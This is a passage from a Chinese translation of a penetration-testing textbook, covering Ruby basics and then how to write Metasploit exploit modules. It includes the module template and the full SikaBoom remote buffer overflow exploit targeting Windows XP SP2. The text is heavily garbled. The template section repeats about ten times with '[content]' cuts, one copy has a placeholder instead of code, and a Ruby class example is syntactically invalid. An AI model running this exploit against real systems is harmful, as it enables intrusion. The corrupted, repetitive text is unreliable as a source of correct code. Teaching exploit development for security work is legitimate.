    n * fact(n-1)
  end
end

puts fact(i)
```

请注意，我们在定义之后调用函数 fact。如果您尝试在定义之前调用它，将会收到错误。这是一个需要记住的重要事项。图 15-9 显示了结果。


图 15-9 阶乘。

## 面向对象编程

对象是一种编程抽象，它将数据与其操作代码分组。所有程序都包含不同类型的数据。对象只是将所有这些内容封装在一个单一位置，称为对象。

面向对象编程有四个基本概念：

- **抽象**基本上是能够以抽象的方式思考概念的能力。您可以为员工创建一个类，而不必考虑特定的员工。它是抽象的，可以适用于任何员工。
- **封装**实际上是面向对象编程的核心。这只是将数据和操作该数据的函数放在一起放入单个类中的行为。回顾我们对字符串的介绍，以及字符串类。字符串类具有您需要操作的数据（即特定字符串）以及您可能对该数据使用的各种函数，所有这些都封装在一个类中。
- **继承**是一个过程，其中一个类继承或获取另一个类的公共属性和方法。经典示例是创建一个名为 animal 的类。该类具有诸如 weight 之类的属性，以及诸如 move 和 eat 之类的方法。所有动物都将共享这些相同的属性和方法。当您希望为例如猴子创建一个类时，您就可以让类 monkey 从类 animal 继承，它将具有 animal 相同的属性和方法。这是面向对象编程支持代码重用的一种方式。
- **多态**字面意思是“多种形式”。当您继承类的属性和方法时，不必保持原样。您可以在自己的类中修改它们。这将允许您更改这些方法和属性所采取的形式。

在 Ruby 中，类由 class 语句定义。以下是一个相当平凡的示例：

```
class person {

    @@age = 0
    @@name = "doe"
    def increaseage {
    }
}
```

## 总结

在本章中，您学习了 Ruby 编程的基础知识。您应该能够编写简单的 Ruby 程序并执行它们。我们涵盖了变量声明、用户输入和输出、函数以及基本的面向对象编程。目标并不是让您成为 Ruby 大师，但您现在应该对 Ruby 有基本的了解。您的知识足以阅读 Ruby 脚本。如本章开头所述，如果您希望获得更多学习 Ruby 的帮助，以下资源可能对您有用：

- http://www.tutorialspoint.com/ruby/
- https://www.fincher.org/tips/Languages/Ruby/
- http://ruby-for-beginners.rubymonstas.org/

## 测试你的技能

### 多项选择题

1. 如何在 Ruby 中创建注释？

- A. ' comment
- B. {comment}
- C. $comment
- D. # comment

2. 类变量是如何定义的？

- A. @
- B. @@
- C. $
- D. C_

3. 代码 a+= 4 会做什么？

- A. 什么都不做，语法错误。
- B. 将四加到变量 A 当前的值上。
- C. 比较 a 的值与 4。
- D. 增加 a 直到它等于 4。

4. 获取用户输入的主要方式是什么？

- A. gets
- B. retrieve
- C. **输入**
- D. **类型**

5. 以下代码有什么问题？

```
if age <15
  puts "you are too young to drive"
else
  if age <21
    puts "you are too young to drink alcohol"
  else
    if age >65
      puts "you are old enough to retire!"
    end
  end
end
```

- A. **if** 语句嵌套太多。
- B. 没有问题，语法正确。
- C. 它应该是一个 **case** 语句。
- D. 第三个 **if** 语句没有 **end** 语句。

6. 以下哪一个会打印出 "1 2 3 4"？

A.

```
for i in (1...4)
  print i," "
end
```

B.

```
for i in (1...5)
  print i," "
end
```

C.

```
for i < 5
  print i," "
end
```

D.

```
for i in (1 to 4)
  print i," "
end
```

## 项目

### 项目 1：基础 Ruby 脚本

以本章中的示例为起点，编写一个具有以下属性的 Ruby 程序：

- 1. 它要求用户输入圆的半径。
- 2. 根据该输入，计算该圆的面积和周长。
- 3. 面积和周长计算都在单独的函数中。

您需要的公式如下：

area = PI r²
circumference = 2 PI * radius

对于本次实验，PI = 3.14 就足够了。

### 项目 2：开放式脚本

编写一个 Ruby 程序，使用 if 语句和 for 循环并从用户获取输入。主题可以是您想要的任何内容。

# 第 16 章

## 使用 Ruby 编写自己的 Metasploit 漏洞利用

## 章节目标

阅读本章并完成练习后，您将能够做到以下几点：

- 阅读并理解现有的 Metasploit 漏洞利用源代码
- 修改现有的 Metasploit 漏洞利用源代码
- 创建自己的 Metasploit 漏洞利用

本章在很大程度上基于第 15 章“使用 Ruby 进行脚本编写”的内容。在继续之前，请确保您完全熟悉该内容。在本章中，我们首先将检查您编写漏洞利用所需的 Metasploit API。然后我们将查看几个带注释的当前漏洞利用。最后，我们将为您准备编写自己的漏洞利用。

漏洞利用可以用其他编程语言编写，但由于 Metasploit 是用 Ruby 编写的，用 Ruby 编写漏洞利用是合乎逻辑的一步。用于编写 Metasploit 漏洞利用的另一种流行脚本语言是 Python。本章将重点介绍编写 Ruby 漏洞利用。

## API

正如您所知，Ruby 是您可以用它编写 Metasploit 漏洞利用的语言之一，也许是漏洞利用编写最流行的语言。不幸的是，仅了解 Ruby 是不够的。在本节中，我们将简要检查 API。然而，当您创建自己的漏洞利用时，您无疑需要参考 API 文档。您可以在此处找到它：https://rapid7.github.io/metasploit-framework/api/。

第一步是安装 Metasploit Framework。如果您已经完成了前几章的工作，您可能已经这样做了。如果没有，您可以在此处查看：https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers。

您可能会发现使用交互式 Ruby Shell（IRB）执行此工作很有用。您可以通过在 Metasploit 中简单输入 **irb** 来访问它，如图 16-1 所示。


图 16-1 IRB。

要退出 IRB，只需输入 **exit**。在阅读本章时，您将看到一些 Metasploit Framework API 方法被使用。然而，有很多方法比本章涵盖的要多。如果您想查看 API 中的方法，您可以在 IRB 中输入 **framework.methods**，如图 16-2 所示。

从这个交互式 shell 中，您可以获取所有方法的总数，或使用 **grep** 搜索特定类型的方法。这两者都显示在图 16-3 中。

Metasploit API 将为您提供创建自己的漏洞利用所需的对 Metasploit Framework 的访问权限。您也可以在 http://rapid7.github.io/metasploit-framework/api/ 获取框架中方法的完整列表以及描述。但与其枚举每个方法，我们将在本章示例中出现时探索它们。


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
### This module requires Metasploit: ### http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：
```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```
我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。
在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。
在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。
为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐步[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐行[content]
我们将逐行走读它，希望能让你了解每一行的含义。

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote

include Msf::Exploit::Remote::Tcp

def initialize(info = {})
  super(update_info(info,
    'Name'        => 'SikaBoom Remote Buffer overflow',
    'Description' => %q{
      This module exploits a buffer overflow in SikaBoom.
    },
    'Module'      => [ 'Asesino04' ],
    'References'  =>
    [
      [ 'Bug', 'http://1337day.com/exploit/16672' ]
    ],
    'DefaultOptions' =>
{
    'EXITFUNC' => 'process',
},
'Payload'     =>
{
    'Space'    => 268,
    'BadChars' => "\x00\xff",
},
'Platform'    => 'win',

'Targets'     =>
[
    ['Windows XP SP2 En',
     { 'Ret' => 0x5D38827C, 'Offset' => 268 } ],
],
'DefaultTarget' => 0,

'Privileged'  => false
))

register_options(
    [
        Opt::RPORT(4321)
    ], self.class)

end

def exploit
    connect

    junk = make_nops(target['Offset'])
    sploit = junk + [target.ret].pack('V') + make_nops(50) + payload.encoded
    sock.put(sploit)

    handler
    disconnect

end

end
```

到此时，**require** 和 **include** 语句应该已经很清楚了。 **initialize** 部分是放置有关漏洞利用信息的区域。 在此例中，你有一个被利用的 bug 的引用、默认选项、目标以及其他选项（远程端口，或 RPORT）。

你已经在上一节中看到了描述。 然而，references 部分包含更多信息。 请注意，它还描述了有效载荷以及目标操作系统。 这些都是重要信息。 还有指向正在被利用的实际漏洞的链接。

真正的[content]

图 16-2 framework.methods.

图 16-3 使用框架。
## 开始使用
在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：
```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```
我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。
在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。
在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。
为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。
## 检查现有漏洞利用
以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐行走读它，希望能让你了解每一行的含义。
```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote

include Msf::Exploit::Remote::Tcp

def initialize(info = {})
  super(update_info(info,
    'Name'        => 'SikaBoom Remote Buffer overflow',
    'Description' => %q{
      This module exploits a buffer overflow in SikaBoom.
    },
    'Module'      => [ 'Asesino04' ],
    'References'  =>
    [
      [ 'Bug', 'http://1337day.com/exploit/16672' ]
    ],
    'DefaultOptions' =>
{
    'EXITFUNC' => 'process',
},
'Payload'     =>
{
    'Space'    => 268,
    'BadChars' => "\x00\xff",
},
'Platform'    => 'win',

'Targets'     =>
[
    ['Windows XP SP2 En',
     { 'Ret' => 0x5D38827C, 'Offset' => 268 } ],
],
'DefaultTarget' => 0,

'Privileged'  => false
))

register_options(
    [
        Opt::RPORT(4321)
    ], self.class)

end

def exploit
    connect

    junk = make_nops(target['Offset'])
    sploit = junk + [target.ret].pack('V') + make_nops(50) + payload.encoded
    sock.put(sploit)

    handler
    disconnect

end

end
```
到此时，**require** 和 **include** 语句应该已经很清楚了。 **initialize** 部分是放置有关漏洞利用信息的区域。 在此例中，你有一个被利用的 bug 的引用、默认选项、目标以及其他选项（远程端口，或 RPORT）。
你已经在上一节中看到了描述。 然而，references 部分包含更多信息。 请注意，它还描述了有效载荷以及目标操作系统。 这些都是重要信息。 还有指向正在被利用的实际漏洞的链接。
真正的[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```代码块保持原样```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

